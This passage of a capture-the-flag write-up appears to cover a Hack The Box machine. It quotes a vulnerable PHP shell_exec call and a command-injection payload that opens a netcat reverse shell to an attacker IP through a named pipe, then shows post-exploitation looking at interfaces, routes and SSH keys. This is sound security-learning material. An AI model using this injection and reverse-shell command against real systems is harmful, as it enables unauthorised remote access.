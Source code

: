 
{% include image.html image_alt="e14a8063.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/e14a8063.png" %}


I see what's going on here. There's PHP code that does something like this.

```php
shell_exec("bash -c ps waux | grep " . base64_decode($_POST['check']) . " | grep -v grep");
```

If I input something like this, I should get a shell, right? Let's try it out.

```
--; rm -rf /tmp/p; mknod /tmp/p p; /bin/sh 0</tmp/p | nc 10.10.13.52 1234 > /tmp/p
```


{% include image.html image_alt="301614a9.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/301614a9.png" %}


Indeed. A `root` shell no less!

...

My happiness soon faded because this isn't a `root` shell. Nonetheless, `user.txt` is located here.


{% include image.html image_alt="2308d637.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/2308d637.png" %}


You can see that the host isn't the final host; it's a router. It has three network interfaces.


{% include image.html image_alt="3dff73cf.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/3dff73cf.png" %}


And, here's the routing table.


{% include image.html image_alt="5470c993.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/5470c993.png" %}


Looking at `/root/.ssh/authorized_keys` reveals who's allowed to SSH into the router.


{% include image.html image_alt="e8c7da43.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/e8c7da43.png" %}


***In case you are wondering, I upgraded the shell with the Python3 `pty` module and some `stty` magic.***

Looking back at the `debug` directory, a `phpinfo()` page was there for the viewing.


{% include image.html image_alt="927b454f.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/927b454f.png" %}


That's the `uname -a` of the `web` host. Further down, the server IP is shown.


{% include image.html image_alt="75834d4a.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/75834d4a.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/155
[2]: https://www.hackthebox.eu/home/users/profile/9267
[3]: https://www.hackthebox.eu/